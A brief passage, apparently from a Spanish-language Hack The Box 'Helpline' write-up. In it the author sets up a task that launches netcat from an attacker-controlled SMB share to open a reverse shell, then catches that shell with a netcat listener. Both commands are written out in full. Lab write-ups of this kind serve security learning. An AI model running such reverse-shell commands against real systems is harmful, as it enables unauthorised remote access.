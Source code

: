 - por último creamos una tarea en la cual cuando se  cree una solicitud con el asunto *reverse* se nos ejecute el siguiente comando `cmd /c //10.10.14.9/mario/nc.exe -e cmd 10.10.14.9 3001`
-  `rlwrap nc -lvp 3001`
 <img src="/assets/htb/helpline/Pasted image 20211105192749.png">
 
 Obtenemos nuestra primera reverse shell 
 <img src="/assets/htb/helpline/Pasted image 20211105192927.png">
 